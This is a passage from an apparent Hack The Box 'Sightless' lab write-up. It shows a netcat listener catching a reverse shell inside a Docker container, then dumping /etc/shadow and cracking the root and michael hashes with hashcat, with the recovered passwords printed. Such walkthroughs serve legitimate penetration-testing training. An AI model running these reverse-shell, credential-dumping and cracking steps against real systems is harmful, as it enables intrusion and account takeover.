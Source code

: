 
```
┌──(pl4stic㉿kali)-[~/htb/sightless]
└─$ nc -nvlp 9001 
listening on [any] 9001 ...
connect to [10.10.14.42] from (UNKNOWN) [10.129.231.103] 57216
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@c184118df0a6:/var/lib/sqlpad#
```

Looks like this gets us into a Docker shell.

## Docker Escape

### /etc/shadow

Since we have root access within the container, and there seems to be at least one other user account, let's check the `/etc/shadow` file to see if we can grab any hashes to try and crack.

```sh
root@c184118df0a6:/tmp# cat /etc/shadow 
cat /etc/shadow
root:$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.:19858:0:99999:7:::
[--snip--]
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:19860:0:99999:7:::
```

### Hash crack

```sh
# root
┌──(pl4stic㉿kali)-[~/htb/sightless]
└─$ hashcat '$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.' /usr/share/wordlists/rockyou.txt.gz
[--snip--]
$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.:blindside
[--snip--]
```

```sh
# michael
┌──(pl4stic㉿kali)-[~/htb/sightless]
└─$ hashcat -m 1800 '$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/' /usr/share/wordlists/rockyou.txt.gz
[--snip--]
$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:insaneclownposse
[--snip--]
```

### SSH as michael
